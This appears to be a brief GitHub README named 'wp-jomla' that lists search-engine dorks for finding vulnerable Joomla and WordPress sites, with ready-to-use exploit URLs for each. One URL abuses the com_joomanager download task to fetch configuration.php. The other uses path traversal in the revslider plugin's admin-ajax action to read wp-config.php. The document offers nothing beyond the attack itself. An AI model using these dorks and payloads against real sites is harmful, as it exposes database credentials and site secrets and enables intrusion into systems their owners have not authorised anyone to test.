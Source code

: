 # wp-jomla
Joomla

Dork: Joomla Config File Download Vulnerability: inurl:'index.php?option=com_joomanager 

Exploit: index.php?option=com_joomanager&controller=details&task=download&path=configuration.php

==================================================================================================
WordPress

Dork: WordPress Arbitrary File Download vulnerability inurl:/wp-content/plugins/revslider/
Exploit: admin-ajax.php?action=revslider_show_image&img=../wp-config.php
